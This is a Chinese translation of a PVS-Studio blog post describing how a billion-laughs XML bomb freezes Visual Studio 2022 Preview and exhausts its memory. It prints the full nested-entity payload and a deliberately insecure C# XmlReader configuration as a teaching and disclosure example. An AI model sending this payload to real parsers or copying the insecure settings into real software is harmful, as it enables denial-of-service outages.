




# Visual Studio 2022 如何耗尽 100 GB 内存，以及 XML 炸弹与此有什么关系

> 原文：<https://itnext.io/how-visual-studio-2022-ate-up-100-gb-of-memory-and-what-xml-bombs-had-to-do-with-it-3a92ed11c6cb?source=collection_archive---------1----------------------->



2021 年 4 月，微软宣布了其 IDE 的新版本——Visual Studio 2022——同时还宣布该 IDE 将是 64 位的。我们等待这一刻已经很久了——再也没有 4 GB 内存限制了！然而，事实证明，事情并不那么简单…

对了，如果你错过了，这里有一个[公告贴](https://devblogs.microsoft.com/visualstudio/visual-studio-2022/)的链接。

但是让我们来讨论这个问题。我在最新(撰写本文时可用)的 Visual Studio 2022 版本— 17.0.0 预览版 3.1 上重现了这个问题。

要重现这一点，以下内容就足够了:

*   使用空白解决方案模板创建新项目；
*   将 XML 文件添加到解决方案中。

之后，尝试将以下文本复制到 XML 文件中:

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 <!ENTITY lol10 "&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;&lol9;">
 <!ENTITY lol11 
  "&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;&lol10;
   &lol10;&lol10;">
 <!ENTITY lol12 
   "&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;&lol11;
    &lol11;&lol11;">
 <!ENTITY lol13 
   "&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;&lol12;
    &lol12;&lol12;">
 <!ENTITY lol14 
   "&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;&lol13;
    &lol13;&lol13;">
 <!ENTITY lol15 
   "&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;&lol14;
    &lol14;&lol14;">
]>
<lolz>&lol15;</lolz>
```

现在去给自己冲一杯咖啡，回到你的电脑前——看着 Visual Studio 吃掉越来越多的 RAM。


你可能有两个问题:

*   为什么要创建一些奇怪的 XML 并将其添加到项目中呢？
*   这里发生了什么事？

让我们来解决这个问题。要做到这一点，我们需要理解为什么不小心处理 XML 文件是危险的，以及 PVS-Studio analyzer 与这一切有什么关系。

# SAST 在 PVS 工作室

我们继续积极开发 PVS-Studio 作为 SAST 解决方案。如果我们谈论 C#分析器，这里的主要焦点是[OWASP 2017 年前 10 名](https://pvs-studio.com/en/pvs-studio/sast/owasptopten/)(这是可用的最新版本——我们期待更新！)支持。顺便说一下，如果你错过了，不久前我们增加了污点分析功能。你可以在这里阅读。

因此，我创建了(或者确切地说，试图创建)一个示例项目来测试分析器。事实是，我们正在为其开发诊断规则的 OWASP 十大类别之一是 [A4:2017-XML 外部实体(XXE)](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)) 。它与不正确的 XML 文件处理有关，这使得应用程序容易受到攻击。不正确的处理是什么意思？通常是对输入数据的过度信任(一个导致许多漏洞的永恒问题)与缺乏足够限制的 XML 解析器相结合。

因此，如果文件遭到破坏，这可能会导致各种令人不快的后果。这里主要有两个问题:数据泄露和拒绝服务。两者都有相应的 cwe:

*   [CWE-611:对 XML 外部实体引用的不当限制](https://cwe.mitre.org/data/definitions/611.html)
*   [CWE-776:dtd 中递归实体引用的不当限制(XML 实体扩展’)](https://cwe.mitre.org/data/definitions/776.html)

前几天我会离开 CWE-611。今天我们需要 CWE-776。

# XML 炸弹(十亿次大笑攻击)

我简单描述一下问题的本质。如果你想知道更多，因特网上的许多资源会给你提供你所需要的信息。

XML 标准假设使用 [DTD](https://en.wikipedia.org/wiki/Document_type_definition) (文档类型定义)。DTD 使您能够使用所谓的 XML 实体。

实体语法很简单:

```
<!ENTITY myEntity "Entity value">
```

然后，您可以按如下方式获得实体值:

```
&myEntity;
```

这里的问题是，实体不仅可以扩展成字符串(在我们的例子中是“实体值”)，还可以扩展成其他实体的序列。例如:

```
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
```

因此，当扩展“lol1”实体时，我们会得到如下所示的字符串:

```
lollollollollollollollollollol
```

您可以更进一步，通过“lol1”扩展“lol2”实体来定义它:

```
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
```

然后，当扩展“lol2”实体时，您会得到以下输出:

```
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollol
```

再深入一层定义‘lol 3’实体怎么样？

```
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
```

这是展开时得到的输出:

```
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollollollollollollollollollollollol
lollollollollollollollollollollollol
....
```

我们在本文开头使用的 XML 文件也是用同样的原理生成的。现在，我想你明白“十亿次大笑”这个名字的由来了。因此，事实证明，如果 XML 解析器配置不正确(启用了 DTD 处理，并且没有限制最大实体大小)，那么在处理这个“炸弹”时不会有什么好结果。

谈到 C#，易受攻击的代码最容易用一个 *XmlReader* 类型的例子来演示:

```
var pathToXmlBomb = @"D:\XMLBomb.xml";
XmlReaderSettings rs = **new** XmlReaderSettings()
{
  DtdProcessing = DtdProcessing.Parse,
  MaxCharactersFromEntities = 0
};**using** var reader 
  = XmlReader.Create(File.OpenRead(pathToXmlBomb), rs);
**while** (reader.Read())
{
  **if** (reader.NodeType == XmlNodeType.Text)
    Console.WriteLine(reader.Value);
}
```

如果我这样配置我的 *XmlReader* ，我几乎是在告诉入侵者:“来吧，把它炸掉！”。

这有两个原因:

*   DTD 处理已启用；
*   实体的最大字符数限制已经取消，文件可以不受阻碍地增长。

默认情况下，禁止处理 DTD 实体: *DtdProcessing* 属性设置为*禁止*。实体的最大字符数也受到限制(从。NET 框架 4.5.2)。所以在现代。你搬起石头砸自己的脚的机会越来越少了。但是这仍然是可能的——如果您没有正确配置解析器的话。

# 回到 Visual Studio 2022

似乎在 Visual Studio 2022 中，当我们复制我们的 XML 炸弹时，两个条件都为真:

*   DTD 处理已开始；
*   没有设置限制—这导致了不断增加的内存消耗。

我们检查了这个过程，看看发生了什么。我们的发现证实了我们的期望。



进程列表显示主线程正在处理 XML 文件。这导致 GUI 冻结，IDE 没有响应任何恢复它的尝试。使用 XML 文件。

VS 主线程的调用堆栈显示该线程正忙于处理 DTD(*parsed TD*方法执行)



在实验过程中，我一直在想，为什么 Visual Studio 要运行 DTD 处理？为什么它不按原样显示 XML？我在试验一个小型 XML 炸弹时得到了答案(同样的方法，更轻的负载)。

似乎整个要点是“动态地”在编辑器中显示实体的可能值。



小值处理成功，但是当 XML 实体开始增长时，问题就出现了。

当然，在我调查之后，我不得不写一份 [bug 报告](https://developercommunity.visualstudio.com/t/Visual-Studio-2022-Preview-is-vulnurable/1521704)。

# 结论

这就是我们如何意外地看到 XML 炸弹在起作用。探索现实生活中流行的应用程序并找到类似这样的东西非常有趣。

就在我写这篇文章的时候，我们正在开发一个诊断工具，用于搜索容易出现 XML 文件处理问题的代码。我们预计在 PVS-Studio 7.15 中发布。如果你想看看这个分析器现在能做什么，我鼓励你[下载](https://pvs-studio.com/en/pvs-studio/download/)它并在你的项目中试用。；)